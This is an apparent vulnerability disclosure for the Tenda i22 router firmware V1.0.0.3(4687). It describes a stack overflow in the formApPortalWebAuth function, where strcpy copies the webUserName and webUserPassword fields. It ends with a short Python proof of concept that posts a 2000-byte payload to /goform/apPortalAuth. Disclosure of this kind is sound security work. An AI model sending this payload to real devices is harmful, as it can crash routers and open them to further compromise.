



## Overview

- Manufacturer's website: https://www.tenda.com.cn
- Firmware download website: https://www.tenda.com.cn/download/detail-2747.html

## Affected version

i22 V1.0.0.3(4687)

## Vulnerability details

In the i22 V1.0.0.3(4687) firmware has a stack overflow vulnerability in the `formApPortalWebAuth` function. This function accepts the `webUserName` parameter and the `webUserPassword` parameter from a POST request. Both of the parameters are later copied by `strcpy` directly to variables on the stack, causing a stack overflow.



The `data` parameter is also a point of vulnerability, and will be copied to the stack variable in subsequent processing via `sprintf `or `strcpy`.



## PoC

```python
import requests
from pwn import*

ip = "192.168.244.3"
url = "http://" + ip + "/goform/apPortalAuth"
payload = b"a"*2000

data = {
    "webUserName": "BeaCox",
    "webUserPassword": payload,
    "data": "vulnerable"
}

response = requests.post(url, data=data)
print(response.text)
```


